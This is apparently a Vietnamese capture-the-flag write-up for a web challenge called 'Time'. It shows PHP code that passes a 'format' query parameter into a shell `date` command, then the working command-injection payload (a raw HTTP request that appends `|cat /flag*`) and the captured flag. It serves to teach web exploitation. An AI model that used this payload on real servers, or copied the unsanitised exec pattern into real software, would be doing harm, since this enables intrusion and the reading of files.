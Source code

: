 ## Time

Đọc code thì thấy bài này liên quan đến comand injection

Mình sẽ show đoạn code cần quan tâm

Nôm na đoạn này ta chỉ cần thêm tham số /?format=...

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

Hàm này sẽ thực thi nhưng chú ý ta cần phải bypass commnad

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Payload:

```
GET /?format=%Y-%m-%d%2b%H:%M:%S'|cat+/flag*+%23 HTTP/1.1
Host: 18.143.200.117:31210
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Source: https://book.hacktricks.xyz/pentesting-web/command-injection

Flag: CHH{datE_7iME_c0MManD_iNjectI0n_7edc7a102e657201d6e981c301a2722c}
